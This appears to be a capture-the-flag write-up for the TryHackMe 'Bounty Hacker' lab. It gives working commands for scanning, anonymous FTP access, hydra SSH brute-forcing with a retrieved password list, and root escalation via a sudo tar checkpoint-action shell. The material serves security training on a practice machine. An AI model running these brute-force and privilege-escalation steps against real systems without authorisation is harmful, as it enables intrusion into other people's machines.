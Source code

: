 ```yaml
---
title: TryHackMe Bounty Hacker [CHALLENGE]
date: 2024-03-11 00:00:00 +0800
categories: [TryHackMe, Challenge]
tags: [walkthough,write-ups]     # TAG names should always be lowercase
image:
    path: https://tryhackme-images.s3.amazonaws.com/room-icons/9ad38a2cc31d6ae0030c888aca7fe646.jpeg
---
```


You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!

## **Reconnaissance**
Initially do the Nmap scan.
```bash
nmap -sC -sV -p- <TARGET_IP> --open
```
`--open`: Scans only the open ports and reduces the time it takes to complete the nmap scan.


```text
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-10 05:41 EDT
Nmap scan report for 10.10.72.181
Host is up (0.32s latency).
Not shown: 56523 filtered tcp ports (no-response), 9009 closed tcp ports (conn-refused)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.13.50.82
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 271.50 seconds
```

## **Insights**
---
OS: Ubuntu

- 80 → HTTP
    - Apache httpd 2.4.18 ((Ubuntu)

- 21 → FTP
    - Running vsftpd 3.0.3
    - Allowed anonymous login
    - There are 2 plaintext exposed that looks like a list of passwords and letter containing a username lin

- 22 → SSH
    - Confirmed that lin is legitimate username and locks.txt is a list of possible passwords.
    - login: lin   password: RedDr4gonSynd1cat3

## **Enumeration**
---
### 80 HTTP
Let us see what the webpage looks like.

![Desktop View](/assets/images/bounty-hacker/front-page.png){: width="972" height="589" }

Let us try scanning for other directories using gobuster. We also can’t do pretty much here.

```bash
gobuster dir -u http://10.10.72.181 -w /opt/SecLists/Discovery/Web-Content/raft-medium-directories.txt -k -t 30
```
```text
=========================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 313] [--> http://10.10.72.181/images/]
/server-status        (Status: 403) [Size: 277]
```

It looks like we have a redirect page. We can inspect that and look for more information

![Desktop View](/assets/images/bounty-hacker/images-dir.png){: width="972" height="589" }

Nothing looks interesting.

Since we know that port 21 is open, why don't we try and access the FTP anonymously.


### 21 FTP
```bash
ftp <IP>
```
![Desktop View](/assets/images/bounty-hacker/ftp-anon.png){: width="972" height="589" }

Remember that you can do directory listing similar to linux and it is a best practice to use `-a` flag for hidden files

```bash
ls -la
```
![Desktop View](/assets/images/bounty-hacker/list.png){: width="972" height="589" }

There are two interesting files. Let's get that

```bash
get <FILENAME>
```

From your attacking machine, look into your working directory and and you will see these two files that you got from the FTP earlier.


**locks.txt**

```text
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```

**task.txt**

```text
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```




## **Gaining an Initial Foothold**

There is a name who wrote the task.txt which can be username. We also have locks.txt that looks like a list of passwords. Let's hail **hydra**

```bash
hydra -l lin -P locks.txt -t 32 10.10.72.181 ssh
```
![Desktop View](/assets/images/bounty-hacker/hydra.png){: width="972" height="589" }

Let us try connecting via SSH using our newlyfound credentials!

```bash
ssh lin@10.10.72.181
```
![Desktop View](/assets/images/bounty-hacker/bling.png){: width="972" height="589" }

## **Privilege Escalation**

I initially checked `sudo -l` command to list the permissions granted to the current user in the sudoers file.

![Desktop View](/assets/images/bounty-hacker/tar.png){: width="972" height="589" }

The `tar` command, primarily used for archiving files, has the capability to invoke shell commands. This feature can be abused to gain root access when a user is permitted to run `tar` as root without requiring a password.

We can use [gtfobin](https://gtfobins.github.io/gtfobins/vim/#sudo) for privilege escalation.

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
`sudo`: Executes the following command with superuser (root) privileges.


`tar -cf /dev/null /dev/null`: Attempts to create (`c`) an archive file with `tar`, specifying `/dev/null` as both the archive file location and the file to be archived. Essentially, this part of the command does nothing meaningful since `/dev/null` is a special file that discards all data written to it.


`-checkpoint=1`: This option tells `tar` to perform a checkpoint action after every 1 record processed. Since `tar` isn't actually processing any real data here (both input and output are `/dev/null`), the checkpoint essentially triggers immediately.


`-checkpoint-action=exec=/bin/sh`: This option specifies the action `tar` should take when it reaches a checkpoint. In this case, it executes `/bin/sh`, a command shell interpreter. Because the entire command is run with `sudo`, `/bin/sh` is executed with root privileges.

> Do not forget to find the FLAGS
{: .prompt-danger }

![Desktop View](/assets/images/bounty-hacker/pwned.png){: width="972" height="589" }